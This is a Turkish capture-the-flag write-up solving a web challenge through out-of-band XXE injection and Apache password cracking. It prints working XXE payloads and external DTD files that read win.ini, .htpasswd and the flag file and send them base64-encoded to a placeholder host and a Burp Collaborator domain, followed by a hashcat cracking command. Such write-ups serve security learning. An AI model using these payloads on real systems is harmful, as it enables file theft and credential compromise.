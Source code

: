 ### At (Web 300)

![soru](soru.png)

Soruda bize sadece bir IP adresi veriliyor. Bu IP adresini ziyaret ettiğimde bir form ile karşılaştım.


![adim1](adim_1.png)


Formu doldurup gönderdiğim isteği Burp Suite'in Repeater aracı ile açıp isteği tekrarladım ve bunu yaptığımda **Sorry, this email is already registered!** mesajı ile karşılaştıım. Kısaca farklı emailler ile isteği tekrarladım ancak mesaj hiç değişmedi. Sonra kısaca her parametreye SQL Injection denemesi yaptım ancak bu da hiçbir sonuç vermedi. İsteğin XML olarak gitmesi akıllara direk XXE Injection(XML External Entity Injection) açığını getirmeli. XML parserlarının bir özelliğinden dolayı oluşan bu güvenlik açığı birçok büyük firmada daha önce bulunmuş ve rapor edenlere binlerce dolar kazandırmıştır. Örnek olarak Google ve Facebookta bulunmuş XXE açıklarının İngilizce write-up'larını okuyabilirsiniz.

Google XXE (Ödül $10,000): https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/  
Facebook XXE (Ödül $30,000): https://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution


![adim2](adim_2.png)   


Ben XXE açığını kontrol etmek için şu listedeki payloadları kullanıyorum: https://gist.github.com/staaldraad/01415b990939494879b4 

Bu XXE payload listesinden biraz deneme yanılma yoluyla çalışan bir payload buldum:


![adim7](adim_7.png)   


XXE başlı başına bir konu olduğu için bu yazıda XXE'yi açıklamayacağım. Ancak kullandığım Out-of-Band XXE payloadunun ne yaptığını kısaca anlatayım:

**XXE Payload (HTTP isteğiyle birlikte gönderilecek)**
```
1: <?xml version="1.0" encoding="UTF-8"?>
2: <!DOCTYPE r [
3: <!ELEMENT r ANY >
4: <!ENTITY % sp SYSTEM "http://xx.xx.xx.xx:8000/ex.dtd">
5: %sp;
6: %param1;
7: %exfil;
8: ]>
```

1) Dördüncü satırda `sp` adında bir XML Entity tanımı yapılıyor. Bu Entity başka bir IP adresindeki DTD dosyasına link ediyor. DTD dosyası dediğimiz bildiğimiz XML dosyası. 

2) 5. satırda bu tanımı yapılan Entity çağırılıyor. Tıpkı fonksiyon gibi düşünün. Tanımını yaptığınız fonksiyonu çağırmazsanız o fonksiyon hiçbir işe yaramaz.

3) XML parser verilen IP adresindeki DTD dosyasını yükleyip parse ediyor.

4) 6. ve 7. satırlarda, yüklenen DTD içinde tanımlanmış olan `param1` ve `exfil` Entityleri çağırılıyorlar. Fonksiyon benzetmesinden devam edersek, DTD dosyasında tanımlı fonksiyonlar çağırılıyor diyebiliriz. Bu sayede XML parser DTD'yi import ettiğinde `param1` ve `exfil` Entitylerine erişebilecek.



**http://xx.xx.xx.xx:8000/ex.dtd Dosyası (Sistemde zafiyet bulunan XML parser bu dosyayı çağırıyor)**:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">   
```

1) Birinci satırda `data` Entity'si `c:/windows/win.ini` dosyasına link ediyor. Yani `data` fonksiyonu çağırıldığında `c:/windows/win.ini` dosyasının base64 encode edilmiş içeriğini dönecek gibi düşünebilirsiniz.

2) İkinci satırda `param1` Entity'si `exfil` adında başka bir Entity tanımlıyor ve bu `exfil` Entity'si `http://x.x.x.x:443/` adresine `data` Entity'sinin içeriğini(Base64 encode edilmiş `c:/windows/win.ini` dosyası) gönderiyor.
![teambios](team-bios.png)  


Bu aşamadan sonra `c:/windows/win.ini` dosyasını okumak için aşağıdaki şekilde istek gönderdim:

![adim9](adim_9.png) 



**ex.dtd'yi barındıran sunucum:**

![adim8](adim_8.png) 


**XXE zafiyeti bulunan sunucu, Burp'ün sunucusuna `c:/windows/win.ini` dosyasını Base64 encode edip gönderiyor:**

![adim9](adim_9.png) 



Bu aşamadan sonra sistemde bütün dosyaları okuyabiliyordum. Ancak bu aşamada takıldım çünkü flag'in nerde saklandığını bulamadım. Ta ki sitenin içinde biraz gezip `js/` klasörünün altındaki `files.txt` dosyasını bulana kadar.  
![adim6](adim_6.png)


Burada bize flag'in `C:\Windows` dizininde olduğunu ve flagin isminin `flag_\d{4}[a-zA-Z]{4}\.txt` Regular Expression'ınına uyucağını söylüyordu. Bütün olasılıkları Brute Force mantıklı değildi. Biraz daha araştırma yapınca sunucunun `/flag` altdizinin HTTP Authentication kullandığını gördüm.

![adim4](adim_4.png)


`/flag` dizinine girebilmek için HTTP Authentication kullanıcı adı ve parolasına ihtiyaç vardı. HTTP Authentication parolaları Apache sunucularda `.htpasswd` dosyasında saklanır. XXE zafiyetini kullanarak bu dosyayı aynı yukarıda `win.ini` dosyasını okuduğumuz gibi okuyabiliriz.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim .htaccess'i okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/xampp/htdocs/.htpasswd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

`.htaccess` dosyasının içeriği:
![adim11](adim_11.png)

HTTP Authentication için kullanıcı adı: `stalker` ve hashlenmiş parola: `$apr1$izrgXKZ1$0fVgd1MIioC14JG6VYwTw/`. Bu parolanın hangi hash fonksiyonu ile hashlendiğini araştırdım ve Apache MD5 diye bir format buldum. Bu formatı cracklemek için Hashcat'i hash türünü 1600 olarak seçerek kullandım. Tabii  dictionary olarak CTFlerin olmazsa olmazı rockyou.txt'yi kullandım.

```
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --force

```  

**Sonuç:**

![adim12](adim_12.png)

Kullanıcı adını `stalker` ve parolayı `gangstagangsta` olarak girdiğimizde yine bir sürprizle karşılaştım.

![adim13](adim_13.png)

Bize flag yerine ismi `flag_3289erpd.txt.jpg` olan bir resim dönülüyor. Biraz kafamı kaşıdıktan sonra `C:/Windows/` dizini altındaki `flag_\d{4}[a-zA-Z]{4}\.txt` formatında bir flag olduğu aklıma geldi. Artık flag'in ismi de elimizde olduğuna göre hemen XXE zafiyetini kullanarak okuyabiliriz flag dosyasını.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim C:/windows/flag_3289erpd.txt'yi okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/flag_3289erpd.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

![flag](flag.png)



Bence soru çok eğlenceliydi. Hazırlayan kişinin ellerine sağlık.

